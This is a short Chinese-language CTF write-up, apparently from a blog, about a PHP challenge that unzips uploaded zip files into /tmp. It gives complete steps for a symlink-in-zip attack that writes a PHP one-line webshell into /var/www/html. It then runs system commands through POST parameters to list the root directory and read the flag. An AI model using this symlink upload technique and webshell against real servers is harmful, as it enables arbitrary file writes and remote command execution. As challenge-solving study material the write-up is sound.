

<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: ``. -->


上传一句话文件木马，查看回显

放行看一下回显

``` Php
<?php   
error_reporting(0);   
highlight_file(__FILE__);
$finfo = finfo_open(FILEINFO_MIME_TYPE);   if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip'){
//确保上传文件类型是zip
        exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
//将上传的zip文件解压到/tmp目录
};      
//only this!
```

`finfo_file`函数检查文件类型，确保上传的文件类型为`zip`，然后将上传的zip解压到`/tmp`目录。
想了一下，如果我们直接上传，那么就会被解压到`/tmp`处，这样我们无法利用蚁剑或者进行命令执行。`软连接`可以达到我们的要求
[Linux 软链接——ln命令详解_ln -s-CSDN博客](https://blog.csdn.net/annita2019/article/details/105481449)

```
//创建一个新的文件夹
mkdir unzip
cd unzip

//创建软连链接
ln -s /var/www/html slink
//slink相当于/var/www/html

//压缩
zip --symlink slink.zip slink

//删除slink，再新建slink文件夹
mkdir slink

//进入slink文件夹，创建shell.php，写入一句话木马
cd slink
echo '<?php eval($_POST['t']);?>' > shell.php

//退到unzip文件夹，并将slink文件夹压缩
cd ..
zip -r slink1.zip ./slink/*
```

依次将`slink`和`slink1.php`上传，然后访问`shell.php`

正常访问，上传解压成功，进行命令执行，利用POST传参

```
t=system('ls /');
t=system('cat /flag');
```


